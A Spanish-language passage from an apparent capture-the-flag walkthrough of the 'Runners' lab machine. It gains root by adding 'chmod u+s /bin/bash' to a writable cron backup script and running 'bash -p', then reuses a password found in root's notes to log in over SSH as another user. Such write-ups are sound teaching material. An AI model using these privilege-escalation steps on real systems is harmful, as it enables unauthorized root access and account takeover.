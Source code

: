 Como podemos modificar este script, tan solo le podemos agregar una instrucción para que le dé **permisos SUID** a la **Bash**.

Usa **vim** o **vi** para modificar el script:
```bash
maria@30acf6ca1fb6:~$ cat /opt/scripts/backup.sh 
#!/bin/bash

chmod u+s /bin/bash
```

Espera un minuto y revisa los permisos de la **Bash**:
```bash
maria@30acf6ca1fb6:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Ejecuta la **Bash** con privilegios y seremos **Root**:
```bash
maria@30acf6ca1fb6:~$ bash -p
bash-5.0# whoami
root
```
Ya somos **Root**.

Si nos movemos a su directorio, veremos un archivo de texto:
```bash
bash-5.0# cd /root
bash-5.0# ls
TODO_LIST.txt
```

Leámoslo:
```bash
bash-5.0# cat TODO_LIST.txt 
1. Crear un script para automatizar los backups de la base de datos. (OK)
2. Cifrar las contraseñas de la base de datos. (OK)
3. Avisar a Ian para que cambie su contraseña, a ver si deja usar su famosa contraseña "******" en todos lados. (Pendiente)
```
Tenemos un usuario y contraseña.

Probémoslo con el **servicio SSH** del **puerto 22**:
```bash
ssh ian@192.168.10.240
ian@192.168.10.240's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-49-generic x86_64)
...
Last login: Thu Nov 28 20:42:23 2024
ian@TheHackersLabs-Runners:~$ whoami
ian
```
Estamos dentro.

Aquí encontraremos la flag del usuario:
```bash
ian@TheHackersLabs-Runners:~$ ls
user.txt
ian@TheHackersLabs-Runners:~$ cat user.txt
...
```
